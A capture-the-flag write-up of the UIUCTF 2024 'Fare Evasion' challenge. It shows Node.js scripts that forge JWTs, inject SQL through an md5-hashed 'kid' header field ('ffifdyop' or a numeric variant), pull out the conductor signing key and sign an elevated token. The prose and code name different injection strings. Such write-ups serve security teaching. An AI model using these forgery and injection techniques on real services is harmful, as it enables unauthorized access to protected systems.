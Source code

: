 - Challenge name: Fare Evasion
- Author: Louis
- Description: 
SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!
- Solves: 173
- Key: uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
- Solver: `Flex` in `SpeedBambooFox`

# Overview

In this challenge, the challenge provides a website just like the Mini Metro style offical UIUCTF 2024 website and explain metro cannot run without fares, and there are two buttons, one for I'm a Passenger that can be clicked, and another for I'm a conductor that can't be clicked, as shown below:
![The Website](./images/image1.png)

When we click the "I'm a Passenger" button, an alert appears with the message, as illustrated below:
![The Website](./images/image2.png)

Too bad:\(, we need conductor privilege to get in the system.

# Exploration

## The JWT in Cookies

When I dig into the cookies, there is a  `access_token` in the cookie, which is encoded as a JWT.

![The Website](./images/image4.png)

To decode this JWT, I wrote a simple program:
```
const jwt = require('jsonwebtoken');
const token = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';
const decoded = jwt.decode(token, { complete: true });

if (decoded) {
    const header = decoded.header;
    const payload = decoded.payload;

    console.log('Header:', header);
    console.log('Payload:', payload);
} else {
    console.error('Invalid token');
}
```


After we decode `access_token`, the JWT's header is
```
Header: { alg: 'HS256', kid: 'passenger_key', type: 'JWT' }
```
and payload is:
```
Payload: { type: 'passenger' }
```

This JWT indicates the token of a passenger, which contains a `kid` that would be useful for the exploit.

## Secret in alert
![The Website](./images/image2.png)

There's something in alert that has a bunch of random code and a secret, where the secret is `a_boring_passenger_signing_key_? `, it indicate that it is the JWT signing key of passenagers.

We can write a program to verify the correctness of its key:

```
const jwt = require('jsonwebtoken');
const secretKey = 'a_boring_passenger_signing_key_?';
const token = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';

try {
    const decoded = jwt.verify(token, secretKey);
    console.log(decoded);
} catch (err) {
    console.error('Invalid token', err);
}
```

The output confirms the JWT signing key for passengers:
```
{ type: 'passenger' }
```

## DB query statement in Body

There is something that caught my attention in the \<script\> section:
``` html
<script>
    async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
  </script>
```

In the `pay()` function, it sends a request to the `/pay"` endpoint to fetch the resource from the server, and then displays the corresponding alert, and I noticed that when we press the `I'm a passenger` button, it triggers the `pay()` funciton, which indicates that the endpoint will go through some kind of authentication, then send back the corresponding response.

And the comment shows the most important hint of the challenge, before throwing in the query statement, the `kid` goes through an md5 hash, which means we can do a sql injection by modifying the `kid` and then by passing through md5, and the `kid` in the JWT payload can be mapped to the  `kid` in the annotated db query statement.

# Exploit

Now We have an idea, if we can do sql injection to get the conductor JWT signed key, and fake conductor's JWT, we may be able to gain conductor's entry into the system.

## Bypass through MD5

Now, we guess that the server side is running a piece of code that is annotated in the HTML body:
```
db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => { ???????
```

There exists a most commonly used bypass trick: `ffifdyop`, whose corresponding 32-bit md5 code is `276f722736c95d99e921722cf9ed621c`, which is converted to ASCII as `'or'6<trash>*`,  and now the code will look like this

```
db.each(`SELECT * FROM keys WHERE kid = 'or'6<trash>*`, (err, row) => { ???????``
```

Now the query statement will select all columns in `keys` table,  we can inject `ffifdyop` in `kid` field of JWT header, here is sample code for generating a JWT that can perform SQL injection:
```
const jwt = require('jsonwebtoken');
const originalJwt = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';
const secretKey = 'a_boring_passenger_signing_key_?';

let decodedPayload;
try {
  decodedPayload = jwt.verify(originalJwt, secretKey);
} catch (err) {
  console.error('Invalid token:', err.message);
  return;
}

const newJwt = jwt.sign(decodedPayload, secretKey, { algorithm: 'HS256', header: { alg: 'HS256', kid: `129581926211651571912466741651878684928`, typ: 'JWT' } });

console.log('Original JWT:', originalJwt);
console.log('New JWT:', newJwt);
```

After inject the new JWT, we can click the again to see the alert, as shown in the image below: 

![The Website](./images/image5.png)

We can see that the conductor's key `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e` appears in the alert

This key is what we want, and we can use it to generate the conductor's JWT. To generate a new conductor's key, I wrote a program as below:

```
const jwt = require('jsonwebtoken');

const secretKey = 'conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e';

const newJwt = jwt.sign({ type: 'conductor' }, secretKey, { algorithm: 'HS256', header: { alg: 'HS256', kid: `129581926211651571912466741651878684928`, typ: 'JWT' } });
console.log(newJwt)
```

We modify the `access token` in cookies to the conductor JWT we generated, and click the `I'm a Passenger` agagin, the flag appears in alert, as shown in the image below:

![The Website](./images/image6.png)



